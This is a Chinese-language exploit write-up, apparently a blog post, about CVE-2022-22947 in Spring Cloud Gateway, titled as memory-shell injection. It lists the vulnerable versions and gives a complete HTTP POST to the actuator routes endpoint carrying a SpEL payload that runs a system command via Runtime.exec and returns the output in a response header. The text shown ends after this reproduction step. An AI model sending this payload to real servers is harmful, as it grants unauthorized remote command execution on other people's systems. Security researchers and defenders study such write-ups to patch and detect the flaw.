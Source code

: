 ```yaml
---
title: Spring Cloud Gateway 内存马注入
date: 2022-06-30 12:46:00
categories: Java
tags: [Spring,内存马]
---
```


# Spring Cloud Gateway 内存马注入

## 漏洞简介

Spring Cloud Gateway 是基于 Spring Framework 和 Spring Boot 构建的 API 网关，它旨在为微服务架构提供一种简单、有效、统一的 API 路由管理方式
以下版本的 Spring Cloud Gateway 存在 SpEL 表达式注入漏洞 CVE-2022-22947，可导致未授权远程命令执行漏洞

漏洞信息：CVE-2022-22947

利用版本：
- Spring Cloud Gateway 3.1.x < 3.1.1
- Spring Cloud Gateway 3.0.x < 3.0.7
- Spring Cloud Gateway 其他已不再更新的版本

## 漏洞利用

### 漏洞复现

发送恶意请求，创建路由及编写 SpEL 表达式
- `id`字段指定新路由名称，必须唯一
- `filters`字段给这条路由指定若干个过滤器，过滤器用于对请求和响应进行修改
   - `name`字段指定要添加的过滤器，这里添加了一个`AddResponseHeader` 过滤器，用于`gateway`给客户端返回响应之前添加一个响应头
   - `args.name`字段指定要添加的响应头
   - `args.value`字段指定响应头的值。这里的值是要执行的 SpEL 表达式，用于执行 whoami 命令。注意需要将命令输出结尾的换行符去掉，否则过滤器执行时会抛出异常说「响应头的值不能以 \r 或 \n 结尾」
   - `uri`字段指定将客户端请求转发到`http://example.com`

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```